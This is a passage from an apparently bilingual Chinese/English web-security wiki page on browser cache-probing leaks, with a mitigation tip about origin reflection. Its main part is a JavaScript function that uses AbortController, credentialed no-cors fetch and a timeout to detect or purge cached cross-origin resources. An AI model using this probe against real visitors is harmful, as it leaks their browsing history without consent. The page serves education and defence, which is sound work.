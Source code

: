```javascript
var resource_url = "server.com/reflected_origin_resource.html"
var verdict = await ifCached(resource_url)
console.log("Resource was cached: " + verdict)
```

{{< hint tip >}}
防御这种攻击最好的方法是，全局的访问需要和获取未经认证的资源，都要避免 origin reflection，并使用 `Access-Control-Allow-Origin: *` 头。

The best way to mitigate this is to avoid origin reflection and use the header `Access-Control-Allow-Origin: *` for globally accessible and unauthenticated resources.
{{< /hint >}}

## 通过 AbortController 请求
下面的片段展示了如何把 [`AbortController`](https://developer.mozilla.org/en-US/docs/Web/API/AbortController) 接口与 *fetch* 和 *setTimeout* 结合起来，既可以探测资源是否被缓存，又可以从浏览器缓存中删除特定的资源。这种技术的一个优点是在探测的过程中不会缓存新的内容。

The below snippet shows how the [`AbortController`](https://developer.mozilla.org/en-US/docs/Web/API/AbortController) interface could be combined with *fetch* and *setTimeout* to both detect whether the resource is cached and to evict a specific resource from the browser cache. A nice feature of this technique is that the probing occurs without caching new content in the process.
```javascript
async function ifCached(url, purge = false) {
    var controller = new AbortController();
    var signal = controller.signal;
    // 9ms 后，丢弃请求（发生在请求完成之前）
    // After 9ms, abort the request (before the request was finished).

    // 为了确保攻击成功，timeout 值可能需要调整
    // The timeout might need to be adjusted for the attack to work properly.

    // 清除内容花费的时间似乎比探测花费的时间略少。
    // Purging content seems to take slightly less time than probing
    var wait_time = (purge) ? 3 : 9;
    var timeout = await setTimeout(() => {
        controller.abort();
    }, wait_time);
    try {
        // 火狐浏览器需要 credentials 参数
        // credentials option is needed for Firefox
        let options = {
            mode: "no-cors",
            credentials: "include",
            signal: signal
        };
        // 如果提供了 "cache: reload" 参数，那么浏览器就会
        // If the option "cache: reload" is set, the browser will purge

        // 从浏览器缓存中清除资源
        // the resource from the browser cache
        if(purge) options.cache = "reload";

        await fetch(url, options);
    } catch (err) {
        // 调用 controller.abort() 的时候，请求会抛出一个异常
        // When controller.abort() is called, the fetch will throw an Exception
        if(purge) console.log("The resource was purged from the cache");
        else console.log("The resource is not cached");
        return false
    }
    // clearTimeout 只会在 wait_time 内，执行到这一行时候调用，这时说明资源一定是从缓存中获取的
    // clearTimeout will only be called if this line was reached in less than
    // wait_time which means that the resource must have arrived from the cache
    clearTimeout(timeout);
    console.log("The resource is cached");
```